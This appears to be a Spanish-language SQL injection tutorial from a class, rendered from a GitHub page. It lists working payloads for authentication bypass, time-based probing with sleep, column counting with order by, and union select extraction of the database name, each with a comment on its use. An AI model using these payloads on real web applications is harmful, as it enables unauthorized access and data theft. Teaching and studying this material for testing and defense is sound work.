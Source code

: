 Es importante entender los diferentes tipos de inyecciones SQL y cómo pueden utilizarse para obtener información confidencial y controlar una base de datos. Los desarrolladores deben asegurarse de validar adecuadamente la entrada del usuario y de utilizar técnicas de defensa, como la sanitización de entrada y la preparación de consultas SQL, para prevenir las inyecciones SQL en sus aplicaciones web.

A continuación, se proporciona el enlace a la utilidad online de ‘**ExtendsClass**‘ que utilizamos en esta clase:

-   **ExtendsClass MySQL Online**: [https://extendsclass.com/mysql-online.html](https://extendsclass.com/mysql-online.html)


## Comandos 

Tenemos: **DB > TABLAS > COLUMNAS > DATOS**
**Antes de la primer coma debemos de colocar un valor que no exista en la DB. Asi lo que inyectemos se podra visualizar.**


### Inyecciones mirando el error en el Output

Debemos de adivinar cuantas columnas existen. Esperando a que ya no nos muestre el **error**.
* La mayoria de las inyecciones las puedes hacer empezando por  '
* Dependiendo de la web podemos iniciar con comilla y a veces no, cuando es el caso tambien no es necesario colocar el comentario -- - al final de la query.
* Un indicio de inyeccion SQL es encontrar en la url **.php?id=** No es necesario que diga **id** tambien puede tener otro parametro. 

```bash
❯ ' or '1'='1                                         # La mas sencilla y nos devolveria un true, dejamos una comilla sin cerrar ya que la propia query la cerrara
❯ ' or 1=1-- -                                        # La mas sencilla y nos devolveria un true, aveces hace bypass en el panel de autenticacion 
❯ ' or sleep(5)-- -                                   # Haremos que tarde en responder la web 5 segundos
❯ ' and sleep(5)-- -                                  # Haremos que tarde en responder la web 5 segundos
❯ ' order by 100-- -                                  # Haremos un ordenamiento con la 100va columna e iremos adivinando hasta que no nos marque un error
```

Despues de saber cuantas columnas existen podemos usar Union Select para meter un data en ese columna, esperando a que tambien esa columna acepte datos. Aqui tendriamos un ejemplo de que existen 3 columnas. Pero pueden ser mas o menos, dependiendo la DB.
```bash
❯ ' union select 1,2,3 -- -                           # Primero colocamos eso y buscamos cual es el numero que nos pone en el output de la web, ya que es en esa columna en donde podremos inyectar algo
❯ ' union select NULL,NULL,NULL -- -                  # Aveces solo acepta NULL en lugar de numeros
❯ ' union select "test",NULL,NULL -- -                # Podemos colocar texto 
❯ ' union select database(),NULL,NULL -- -            # Queremos que muestre el nombre de la base de datos actual en uso
```
